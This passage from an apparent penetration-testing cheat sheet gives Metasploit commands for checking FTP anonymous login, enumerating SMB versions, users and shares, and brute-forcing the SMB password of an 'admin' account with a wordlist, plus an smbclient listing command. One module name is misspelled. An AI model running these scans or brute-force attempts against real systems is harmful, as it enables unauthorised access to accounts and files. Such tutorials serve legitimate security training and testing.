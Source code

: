 > This module can be used to brute force FTP usernames and their respective passwords.

```msfconsole
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/anonymous
set RHOSTS <ip-address>
run
```

> This will check whether there is an anonymous login vulnerability.

#### SMB Enumeration:

```msfconsole
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_version
set RHOSTS <ip-address>
run
```

> This will give us the SMB version on the machine.

```msfconsole
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_enumunsers
set RHOSTS <ip-address>
run
```

> It gives us all the users on the machine

```msfconsole
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS <ip-address>
set ShowFiles true
run
```

> This will give all the shared files and shared details.

```msfconsole
search type:auxiliary name:smb
use auxiliary/scanner/smb/smb_login
set RHOSTS <ip-address>
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

> This module can be used to brute force the password for particular user `admin` in this case.

```shell
smbclient -L \\\\<ip-address>\\ -U admin
```

> After this command a prompt to enter the password will arrive and then after entering the correct password it will list down all the shared files and all.
